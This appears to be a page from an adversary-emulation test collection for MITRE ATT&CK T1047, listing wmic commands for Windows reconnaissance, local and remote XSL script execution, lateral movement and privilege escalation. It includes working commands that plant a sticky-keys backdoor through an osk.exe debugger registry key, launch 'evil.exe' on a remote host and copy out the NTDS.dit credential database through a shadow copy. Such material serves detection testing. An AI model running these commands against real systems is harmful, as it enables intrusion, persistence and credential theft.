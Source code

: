 ﻿## Windows Management Instrumentation

MITRE ATT&CK Technique: [T1047](https://attack.mitre.org/wiki/Technique/T1047)

### Reconnaissance

Input:

    wmic useraccount get /ALL

Input:

    wmic process get caption,executablepath,commandline

Input:

    wmic qfe get description,installedOn /format:csv

Input:

    wmic /node:"192.168.0.1" service where (caption like "%sql server (%")

Input:

    get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"
    
### Local Execution
    
    wmic os get /format:wmic.xsl

### Remote Execution

    wmic os get /format:"https://example.com/wmic.xsl"

## Test Script

[wmic.xsl](../Payloads/wmic.xsl)

### Lateral Movement

Input:

    wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"

Input:

    wmic /NODE: "192.168.0.1" process call create "evil.exe"

### Privileged Escalation

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"

Input:

    wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"
